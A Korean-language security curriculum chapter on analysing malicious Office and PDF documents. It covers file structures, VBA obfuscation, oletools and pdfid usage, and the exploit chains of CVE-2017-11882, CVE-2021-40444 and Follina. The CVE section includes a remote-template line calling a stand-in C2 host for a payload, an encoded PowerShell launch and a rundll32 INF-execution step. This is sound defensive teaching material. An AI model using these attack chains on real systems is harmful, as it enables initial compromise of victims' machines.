

# 07. 문서형 악성코드 및 PDF 포렌식 분석 가이드 (Document & PDF Malware Analysis)

> **핵심 요약**: 스피어 피싱(Spear Phishing)과 이메일 첨부파일을 통해 유포되는 악성 Office 문서(`.doc`, `.docx`, `.xls`, `.docm`)와 악성 PDF(`.pdf`)의 내부 파일 포맷 구조, OLE 복합 바이너리, OpenXML 압축 구조, FlateDecode 스트림 난독화, VBA/VBS 매크로 해제, 힙 스프레이(Heap Spray), 그리고 CVE-2017-11882, CVE-2021-40444, CVE-2022-30190(Follina) 등의 익스플로잇 메커니즘을 심층 분석합니다.

---

## 1. 개요 및 공격 벡터 (Attack Vectors)

APT(Advanced Persistent Threat) 공격 그룹이 최초 침투(Initial Access)를 위해 가장 빈번하게 활용하는 기법은 **문서형 악성코드(Malicious Documents, MalDoc)**입니다. 사용자가 일상적으로 신뢰하고 실행하는 오피스 문서나 PDF 파일에 취약점 트리거 또는 악성 스크립트를 은닉합니다.

### 1.1 주요 침투 유형

1. **VBA 매크로 기반 드롭퍼/다운로더**:
   - `AutoOpen()`, `Document_Open()`, `Workbook_Open()` 등의 자동 실행 이벤트를 악용.
   - 다단계 난독화(Chr, XOR, 역순 결합, 환경변수 치환)를 통해 백신 탐지를 우회하고 PowerShell, WScript, MSHTA를 통해 페이로드 다운로드.
2. **수식 편집기 및 레거시 취약점 (Memory Corruption)**:
   - **CVE-2017-11882 / CVE-2018-0802**: Microsoft Equation Editor (`EQNEDT32.EXE`)의 글꼴 이름 버퍼 오버플로우를 악용한 원격 코드 실행(RCE). DEP/ASLR 미적용 바이너리 특성을 악용.
3. **템플릿 인젝션 및 외부 리소스 참조**:
   - 원본 문서 자체에는 악성코드가 없으나, 문서를 여는 순간 외부 서버의 악성 매크로 템플릿(`.dotm`)을 다운로드하여 실행.
4. **MSHTML / Trident 엔진 취약점**:
   - **CVE-2021-40444**: Word 문서 내 OLE 관계(`document.xml.rels`)를 통해 악성 ActiveX 제어 파일 및 `.cab` 압축 파일을 로드하여 `inf` 스크립트 실행.
   - **CVE-2022-30190 (Follina)**: `ms-msdt:` 프로토콜 핸들러를 악용하여 진단 도구를 통해 임의 PowerShell 명령 실행.
5. **PDF 스트림 및 자바스크립트 익스플로잇**:
   - `/OpenAction`, `/AA` (Additional Actions)를 통해 문서 열람 시 자동으로 `/JavaScript` 실행.
   - 힙 스프레이(Heap Spray)를 통해 고정 메모리 주소(예: `0x0c0c0c0c`)에 NOP 슬레드와 셸코드를 배치하고 RCE 유도.

---

## 2. MS Office 문서 내부 아키텍처

Office 문서는 세대에 따라 완전히 다른 두 가지 바이너리/컨테이너 포맷을 사용합니다.



### 2.1 OLE2 (Compound File Binary Format, CFBF)
- 시그니처 매직 넘버: `\xD0\xCF\x11\xE0\xA1\xB1\x1A\xE1`
- 파일 시스템과 유사한 계층 구조: **스토리지(Storage, 디렉터리 역할)**와 **스트림(Stream, 파일 데이터 역할)**으로 구성.
- `oledump.py`를 사용하여 스트림 번호와 매크로 포함 여부(대문자 `M` 또는 소문자 `m`)를 분석합니다.

```bash
# OLE 스트림 목록 분석
oledump.py sample.doc
#   1:        114 '\x01CompObj'
#   2:       4096 'WordDocument'
#   3: M     2341 'Macros/VBA/Module1'   <-- 'M'은 매크로 코드 포함 스트림
#   4:        256 'Macros/VBA/_VBA_PROJECT'

# 3번 스트림의 VBA 코드 디컴파일 및 덤프
oledump.py -s 3 -v sample.doc
```

### 2.2 OOXML (Office Open XML)
- 시그니처 매직 넘버: `\x50\x4B\x03\x04` (`PK..`, 표준 ZIP 포맷)
- ZIP 압축을 해제하면 XML 문서들과 리소스 파일들이 노출됩니다:
  - `word/_rels/document.xml.rels`: 원격 템플릿 주소, 외부 OLE 객체 링크가 정의되는 핵심 분석 표적.
  - `word/vbaProject.bin`: `.docm`, `.xlsm` 파일에서 실제 VBA 매크로가 저장된 OLE 서브스트림.

---

## 3. VBA 매크로 난독화 해제 및 정적 분석

악성 VBA 매크로는 정적 시그니처 탐지를 피하기 위해 문자열을 고도로 난독화합니다.

### 3.1 주요 난독화 패턴
1. **문자열 함수 조합**: `Chr(112) & Chr(111) & Chr(119) & ...`
2. **역순 정렬**: `StrReverse("llehswop")` -> `"powershell"`
3. **치환 (Replace)**: `Replace("p!o!w!e!r", "!", "")`
4. **XOR / 덧셈 시프트 연산**: 바이트 배열을 순회하며 특정 키값으로 복호화.
5. **폼 컨트롤/문서 본문 은닉**: 텍스트 상자(TextBox), 문서의 힌트 색상 텍스트, 사용자 정의 속성(CustomDocumentProperties)에 페이로드를 숨겨두고 매크로에서 읽어 들임.

### 3.2 OLETools를 활용한 자동화 분석

```bash
# olevba로 악성 키워드 (IOC) 및 매크로 코드 자동 추출
olevba sample.docm

# 위험 키워드 탐지 결과 예시:
# +------------+----------------------+------------------------------------+
# | Type       | Keyword              | Description                        |
# +------------+----------------------+------------------------------------+
# | AutoExec   | AutoOpen             | Runs when the Word doc is opened   |
# | Suspicious | Shell                | May run an executable file or cmd  |
# | Suspicious | WScript.Shell        | May create OLE object for command  |
# | Suspicious | Chr                  | Obfuscated character strings       |
# | Suspicious | Base64               | Encoded binary or URL payload      |
# +------------+----------------------+------------------------------------+
```

---

## 4. PDF 문서 내부 구조 및 악성 오브젝트 분석

PDF(Portable Document Format)는 단순한 문서 뷰어가 아니라 인터랙티브 양식, 3D 렌더링, 폰트 임베딩, 자바스크립트 실행 엔진을 내장한 복합 실행 환경입니다.

### 4.1 PDF 4대 기본 구조

```text
%PDF-1.7                         <-- 1. Header (버전 정보)

1 0 obj                          <-- 2. Body (간접 객체들의 집합)
<< /Type /Catalog /Pages 2 0 R /OpenAction 4 0 R >>
endobj

4 0 obj
<< /Type /Action /S /JavaScript /JS (app.alert("Pwned!");) >>
endobj

xref                             <-- 3. Cross-Reference Table (오브젝트 오프셋 인덱스)
0 5
0000000000 65535 f
0000000015 00000 n
...

trailer                          <-- 4. Trailer (카탈로그 루트 및 총 객체 수)
<< /Size 5 /Root 1 0 R >>
startxref
540
%%EOF
```

### 4.2 PDF 핵심 분석 도구: pdfid 및 pdf-parser

```bash
# 1. 의심스러운 태그 존재 여부 1초 요약 검사 (pdfid)
pdfid malicious.pdf

# 출력 예시:
# PDF Header: %PDF-1.4
#  obj                   18
#  endobj                18
#  stream                 4
#  endstream              4
#  /Page                  1
#  /JavaScript            1  <-- [주의] 자바스크립트 포함!
#  /OpenAction            1  <-- [주의] 문서 열람 시 자동 실행!
#  /AcroForm              0
#  /Launch                0  <-- [위험] 외부 프로그램 직접 실행 시도 여부
#  /EmbeddedFiles         0

# 2. 특정 오브젝트의 스트림 디코딩 및 내용 덤프 (pdf-parser)
# /Filter /FlateDecode로 압축된 4번 객체의 스트림을 압축 해제(-f)하여 확인
pdf-parser -o 4 -f malicious.pdf
```

---

## 5. CVE 기반 실전 문서 익스플로잇 분석

### 5.1 CVE-2017-11882 (Microsoft Equation Editor RCE)
- **원인**: 수식 편집기 `EQNEDT32.EXE`가 OLE 객체 데이터를 파싱할 때 글꼴 이름(`Font Name`) 필드의 길이를 검증하지 않아 스택 버퍼 오버플로우 발생.
- **특징**: 2000년도에 컴파일된 레거시 32비트 프로세스로서 ASLR(주소 공간 무작위화)과 DEP(데이터 실행 방지) 보호 기법이 적용되어 있지 않음.
- **공격 방식**:
  - `WinExec` 함수 주소를 직접 반환 주소(EIP)로 덮어씌움.
  - 페이로드 인자로 `cmd.exe /c powershell -enc ...`를 전달하여 무경고 백그라운드 악성 프로세스 구동.

### 5.2 CVE-2021-40444 (MSHTML 엔진 RCE)
- **원인**: Office 문서는 인터넷 익스플로러의 MSHTML 렌더링 엔진을 사용하여 OLE 객체를 인스턴스화할 수 있음.
- **공격 체인**:
  1. `word/_rels/document.xml.rels` 파일에 외부 HTML 타깃(`Target="http://c2.evil/payload.html" TargetMode="External"`) 지정.
  2. 사용자가 문서를 열면 MSHTML이 해당 HTML을 렌더링.
  3. HTML 내 JavaScript가 악성 ActiveX 제어 객체를 로드하고 `.cab` 압축 파일을 다운로드.
  4. 디렉터리 트래버설(`../`)을 통해 `.inf` 파일을 시스템 경로에 풀고 `rundll32.exe setupapi.dll,InstallHinfSection`을 트리거하여 셸코드 실행.

---

## 6. 분석 및 대응 프레임워크 실습 (Lab 14 연계)

본 커리큘럼의 [Lab 14: DocArmor 문서형 악성코드 분석 랩](../labs/14_maldoc_lab/README.md)에서 다음 실전 공격 및 분석 과정을 직접 실습할 수 있습니다.

```bash
# Lab 14 구동 명령
python3 vhack.py lab start 14

# 랩 내부 포트: 8014
# 대화형 CLI 및 실시간 OLE/PDF 디코딩 엔진 탑재
```

1. **난독화 VBA 추출**: 다층 XOR 및 ChrW 연산을 디코딩하여 C2 호스트 식별.
2. **PDF FlateDecode 역추적**: 인플레이션된 셸코드 스트림에서 NOP 슬레드 및 익스플로잇 대상 오프셋 계산.
3. **CVE-2021-40444 템플릿 무력화**: `document.xml.rels`의 악성 외부 관계 태그를 정제하고 CAB 압축 무결성 검증.
